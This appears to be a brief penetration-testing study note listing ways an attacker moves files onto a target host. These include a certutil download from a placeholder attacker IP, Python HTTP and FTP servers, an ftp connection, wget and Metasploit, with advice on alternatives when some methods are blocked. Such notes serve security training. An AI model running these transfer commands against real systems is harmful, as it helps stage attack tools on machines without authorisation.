## File Transfers Review
- As an attacker we usually host a file
- Some ways get blocked and so you should know other ways
- Certutil
  - `certutil.exe -urlcache -f http://<attacker ip>/file.txt file.txt`
- HTTP
  - `python3 -m http.server 80`
- Browser
  - Navigate directly to file
- FTP
  - `python -m pyftpdlib 21 <attacker ip>`
  - `ftp <attacker ip>`
- Linux
  - `wget`
- Metasploit
  - Upload/download
  
